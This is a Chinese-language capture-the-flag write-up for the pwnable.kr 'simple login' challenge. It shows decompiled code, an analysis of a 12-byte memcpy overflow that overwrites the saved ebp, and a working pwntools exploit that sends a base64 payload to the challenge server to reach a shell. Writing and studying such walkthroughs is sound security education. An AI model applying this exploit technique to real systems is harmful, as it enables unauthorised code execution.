 ```yaml
---
title: kr_simple login
date: 2020-02-08 16:47:20
tags:
- pwn
- pwnable.kr
---
```


# pwnable.kr simple login

### 0x0 补充

CANARY:

```
        High

        Address |                 |

                +-----------------+

                | args            |

                +-----------------+

                | return address  |

                +-----------------+

        rbp =>  | old ebp         |

                +-----------------+

      rbp-8 =>  | canary value    |

                +-----------------+

| Local variables |
        Low     |                 |

        Address
```



### 0x0 分析

**这道题我觉得我要记录一下,之前学到的栈溢出都太死板了！**

先检查安全性：

<img src="https://i.loli.net/2020/02/08/fwkSOBz71eL8PYK.png" style="zoom:67%;" />

这道题很奇怪。明明感觉开着canary，但是却可以像寻常一样栈溢出。

分析一下函数：

`main`:

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  _BYTE *origion; // [esp+18h] [ebp-28h]
  char b64; // [esp+1Eh] [ebp-22h]
  unsigned int len; // [esp+3Ch] [ebp-4h]

  memset(&b64, 0, 0x1Eu);
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  printf("Authenticate : ");
  _isoc99_scanf("%30s", &b64);
  memset(&input, 0, 0xCu);
  origion = 0;
  len = Base64Decode((int)&b64, &origion);
  if ( len > 0xC )
  {
    puts("Wrong Length");
  }
  else
  {
    memcpy(&input, origion, len);
    if ( auth(len) == 1 )
      correct();
  }
  return 0;
}
```

看来这道题首先要输入一串base64编码的数据，而且decode之后不可以长度超过`0xc`。

然后最长`0xc`的decode之后的数据被拷贝到一个固定的地方`input`，在`.bss`里。地址为`0x0811EB40`。

然后进入到`auth(len)`函数。

`auth()`:

```c
_BOOL4 __cdecl auth(int a1)
{
  char v2; // [esp+14h] [ebp-14h]
  char *s2; // [esp+1Ch] [ebp-Ch]
  int v4; // [esp+20h] [ebp-8h]

  memcpy(&v4, &input, a1);
  s2 = (char *)calc_md5((int)&v2, 12);
  printf("hash : %s\n", s2);
  return strcmp("f87cd601aa7fedca99018a8be88eda34", s2) == 0;
}
```

本来有想法顺着人家的逻辑来走的。但是看到这里，hash不出来这值啊。23333.

但是在这里发现了溢出点。就是` memcpy(&v4, &input, a1);`。

因为` int v4; // [esp+20h] [ebp-8h]`。`v4`在`ebp-8h`位置。但`input`最长可以赋值给`v4`以`0xc`个字节。搞好溢出到了存放原`ebp`的位置。可以控制`ebp`。

然后看一下下一个函数`correct()`：

`correct()`:

```c
void __noreturn correct()
{
  if ( input == -559038737 )
  {
    puts("Congratulation! you are good!");
    system("/bin/sh");
  }
  exit(0);
}
```

嘿嘿。进入到这个函数就可以了直接完成任务了耶！

那么其实思路出来了。

首先在栈溢出`auth()`函数栈中的存放`ebp`的位置。改变了`main`函数的`ebp`。

然后结束`main`函数的时候必然要经过这样几个步骤：

```assembly
mov esp, ebp
pop ebp
pop eip
```

这样就可以通过栈溢出的4个字节控制栈顶指针为我们想要的位置。然后两次`pop`，第一次`pop`不用管。第二次`pop`我们预先设置的`system("/bin/sh");`位置，即可下一步执行`system("/bin/sh");`。

所以我们可以让栈溢出的4个字节指向`input`。让`input`里先存4个useless字节，再存`system("/bin/sh");`的地址，然后两次`pop`到`system("/bin/sh");`。完成任务！

### 0x1 EXP

```python 
#! /usr/bin/python
#coding=utf-8

from pwn import *
context.log_level='debug'

sh_addr = 0x08049284	#system("/bin/sh")位置
ret_addr = 0x0811EB40	#bss里input位置

payload = b64e(p32(0) + p32(sh_addr) + p32(ret_addr))

p = remote("pwnable.kr", 9003)
p.sendline(payload)
p.interactive()
```

